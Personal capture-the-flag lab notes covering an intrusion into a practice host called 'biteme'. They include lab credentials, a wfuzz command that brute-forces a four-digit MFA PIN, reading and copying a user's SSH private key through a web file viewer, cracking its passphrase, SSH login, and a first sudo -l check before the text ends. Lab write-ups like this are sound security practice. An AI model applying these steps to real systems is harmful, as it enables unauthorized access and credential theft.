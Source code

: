 ```python
for value in line.split():

hash_md5(value)
```

- used the first result to login 
	- jason_test_account:violet
-  get a new page mfa.php 
	- used ffuf to to brute force the 4 digit pin
	- created a file of 4 digit numbers froom 000 to 9999 
		- ran ffuf to find the pin for mfa.php page 
		-  wfuzz -c -z file,4_digit_pins.txt -u http://10.10.152.78/console/mfa.php -d "code=FUZZ" -H "Cookie: PHPSESSID=ggmas0032nqhh5mhsflh59j8dt; user=jason_test_account; pwd=violet" --hh 1523 -t 100
- logged in to web site get some kid of a web shell  
	- ![[Pasted image 20220316115249.png]]
	- poking around it looks like file browser is using the ls command and file viewer is using the cat command
	- using file browser checked to see what users had home dir's
		- ![[Pasted image 20220316115607.png]]
	- get jason and fred
	- using file browser on /home/jason 
		- ![[Pasted image 20220316115721.png]]
	- checked if jason had an id_rsa key in his .ssh dir using the file viewer 
		- ![[Pasted image 20220316115956.png]]
		- copyed the id_rsa file to my kali machine 
		- the file is encrypted used ssh2jon to find the pass phrase
		-  pass phrase = 1a2b3c4d
- ## ssh with jasons id_rsa key
```bash
jason@biteme:~$ id
uid=1000(jason) gid=1000(jason) groups=1000(jason),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev)
jason@biteme:~$ ls -la
total 40
drwxr-xr-x 6 jason jason 4096 Nov 21 18:20 .
drwxr-xr-x 4 root  root  4096 Sep 24 13:04 ..
lrwxrwxrwx 1 jason jason    9 Sep 23 13:50 .bash_history -> /dev/null
-rw-r--r-- 1 jason jason  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 jason jason 3771 Apr  4  2018 .bashrc
drwx------ 2 jason jason 4096 Nov 13 13:28 .cache
drwxr-x--- 2 jason jason 4096 Nov 21 18:20 .config
drwx------ 3 jason jason 4096 Sep 23 13:51 .gnupg
-rw-r--r-- 1 jason jason  807 Apr  4  2018 .profile
drwxr-xr-x 2 jason jason 4096 Sep 24 11:47 .ssh
-rw-r--r-- 1 jason jason    0 Sep 23 13:43 .sudo_as_admin_successful
-rw-rw-r-- 1 jason jason   38 Sep 23 14:00 user.txt
```
---
## Privilege Escalation
---
- ##  sudo -l
	```bash
	jason@biteme:~$ sudo -l
Matching Defaults entries for jason on biteme:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
